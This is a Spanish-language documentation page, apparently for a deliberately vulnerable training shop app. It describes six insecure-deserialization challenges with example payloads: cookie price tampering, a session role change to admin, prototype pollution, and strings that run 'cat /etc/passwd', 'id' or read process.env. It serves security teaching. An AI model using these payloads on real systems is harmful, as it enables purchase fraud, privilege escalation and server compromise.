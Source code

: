 ```yaml
---
layout: default
title: Insecure Deserialization
nav_order: 5
parent: Vulnerabilidades
---
```


# Insecure Deserialization

## 5.1 Carrito de Compras Vulnerable
- **Ubicación**: `/api/v1/cart` y `/api/v1/cart/items`
- **Descripción**: Datos del carrito almacenados en cookie serializada insegura
- **Pasos**:
  1. Agregar items al carrito
  2. Interceptar y decodificar cookie (base64)
  3. Modificar datos serializados
  4. Recodificar y reemplazar cookie
- **Payload de ejemplo**:
  ```python
  # Cookie original (base64)
  b64decode('eyJpdGVtcyI6W3siaWQiOjEsInByaWNlIjoxMC45OSwicXR5IjoxfV19')

  # Datos deserializados
  {
    "items": [
      {
        "id": 1,
        "price": 10.99,
        "qty": 1
      }
    ]
  }

  # Modificar precio y cantidad
  {
    "items": [
      {
        "id": 1,
        "price": 0.01,
        "qty": 100
      }
    ]
  }

  # Recodificar en base64
  b64encode(json.dumps(modified_cart).encode())
  ```
- **Criterio de éxito**: Manipular precios y cantidades sin validación
- **Impacto**: Fraude en compras, pérdidas económicas

## 5.2 Manipulación de Sesión de Usuario
- **Ubicación**: `/api/v1/cart/checkout` y `/api/v1/user/session`
- **Descripción**: Datos de sesión serializados vulnerables a manipulación
- **Pasos**:
  1. Interceptar request de checkout
  2. Decodificar datos de sesión
  3. Modificar información de usuario/pago
  4. Reenviar request modificado
- **Payload de ejemplo**:
  ```python
  # Datos de sesión originales
  {
    "user": {
      "id": 2,
      "role": "user",
      "verified": false
    },
    "payment": {
      "verified": false,
      "limit": 1000
    }
  }

  # Datos modificados
  {
    "user": {
      "id": 2,
      "role": "admin",
      "verified": true
    },
    "payment": {
      "verified": true,
      "limit": 999999
    }
  }
  ```
- **Criterio de éxito**: Bypass de validaciones de checkout y límites
- **Impacto**: Manipulación de proceso de compra, escalación de privilegios

## 5.3 Lista de Deseos Insegura
- **Ubicación**: `/api/v1/wishlist`
- **Descripción**: Deserialización insegura en gestión de lista de deseos
- **Pasos**:
  1. Crear lista de deseos
  2. Interceptar request de guardado
  3. Modificar objeto serializado
  4. Inyectar código malicioso
- **Payload de ejemplo**:
  ```python
  # Objeto original
  {
    "items": [{"id": 1, "name": "Product"}],
    "shared": false
  }

  # Objeto malicioso con gadget
  {
    "items": [{"id": 1, "__proto__": {"polluted": true}}],
    "constructor": {
      "prototype": {
        "polluted": true
      }
    }
  }
  ```
- **Criterio de éxito**: Contaminación de prototipos
- **Impacto**: Ejecución de código, manipulación de objetos

## 5.4 Comparador de Productos
- **Ubicación**: `/api/v1/products/compare`
- **Descripción**: Deserialización insegura en comparación de productos
- **Pasos**:
  1. Seleccionar productos para comparar
  2. Interceptar request de comparación
  3. Modificar objeto serializado
  4. Inyectar comandos del sistema
- **Payload de ejemplo**:
  ```python
  # Request original
  {
    "products": [1, 2],
    "attributes": ["price", "specs"]
  }

  # Payload malicioso
  {
    "products": {"__proto__": {"shell": "true"}},
    "attributes": {
      "toString": {"__proto__": {
        "shell": "require('child_process').execSync('cat /etc/passwd')"
      }}
    }
  }
  ```
- **Criterio de éxito**: Ejecución de comandos del sistema
- **Impacto**: Compromiso del servidor

## 5.5 Chat de Soporte
- **Ubicación**: `/api/v1/support/chat/history`
- **Descripción**: Deserialización insegura en historial de chat
- **Pasos**:
  1. Acceder al historial de chat
  2. Interceptar respuesta serializada
  3. Modificar objeto del historial
  4. Inyectar payload malicioso
- **Payload de ejemplo**:
  ```python
  # Historial original
  {
    "messages": [
      {"text": "Hola", "time": "2024-01-20T10:00:00Z"}
    ]
  }

  # Payload malicioso
  {
    "messages": {
      "__proto__": {
        "toString": {
          "constructor": {
            "constructor": "return process.env"
          }
        }
      }
    }
  }
  ```
- **Criterio de éxito**: Acceso a variables de entorno
- **Impacto**: Fuga de información sensible

## 5.6 Gestión de Pedidos
- **Ubicación**: `/api/v1/orders/status`
- **Descripción**: Deserialización insegura en actualización de estado
- **Pasos**:
  1. Consultar estado de pedido
  2. Interceptar respuesta
  3. Modificar objeto de estado
  4. Inyectar código malicioso
- **Payload de ejemplo**:
  ```python
  # Estado original
  {
    "order_id": 1,
    "status": "pending",
    "updates": []
  }

  # Payload malicioso con RCE
  {
    "order_id": {"__proto__": {"shell": true}},
    "status": {
      "toString": {
        "constructor": {
          "constructor": "return require('child_process').execSync('id')"
        }
      }
    }
  }
  ```
- **Criterio de éxito**: Ejecución remota de código
- **Impacto**: Compromiso total del sistema
